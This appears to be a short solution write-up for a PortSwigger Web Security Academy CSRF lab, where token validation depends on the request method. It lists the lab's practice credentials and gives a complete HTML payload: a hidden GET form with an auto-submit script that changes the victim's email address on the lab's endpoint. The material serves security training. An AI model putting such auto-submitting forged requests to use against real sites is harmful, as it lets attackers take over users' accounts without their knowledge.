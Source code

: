 # CSRF where token validation depends on request method

## This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

## To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

## You can log in to your own account using the following credentials: `wiener:peter`

### HINT:

```html
<html>
  <body>
    <form
      action="https://0aa900d10373edfe81cd75dd008f004f.web-security-academy.net/my-account/change-email"
      method="GET"
    >
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
